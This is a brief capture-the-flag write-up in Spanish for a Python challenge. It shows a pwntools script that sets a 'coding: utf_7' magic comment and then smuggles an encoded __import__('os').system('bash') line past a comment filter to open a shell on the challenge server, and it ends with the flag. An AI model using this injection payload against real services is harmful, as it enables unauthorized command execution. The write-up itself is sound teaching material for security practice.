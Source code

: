 # Awesome Python Homework 

El programa nos permite escribir comentarios en un archivo de python. Podemos descomentar el codigo usando comentarios magicos

Mas informacion aqui: https://book.jorianwoltjer.com/languages/python#ast-bypass-using-magic-comment
``` python
from pwn import *

#io = process(['python3','main.py'])
io = remote("74.207.229.59",20240)

io.sendlineafter(b"number: ",b"0")
io.sendlineafter(b"comment: ",b"coding: utf_7")
io.sendlineafter(b"[y/N]: ",b"y")
io.sendlineafter(b"number: ",b"25")
io.sendlineafter(b"comment: ",b'+AAo-__import__("os").system("bash")')
io.sendlineafter(b"[y/N]: ",b"N")
io.sendlineafter(b"palindrome: ",b"whatever")
io.interactive()
```

`texsaw{i_got_100%,thanks!!1!}`

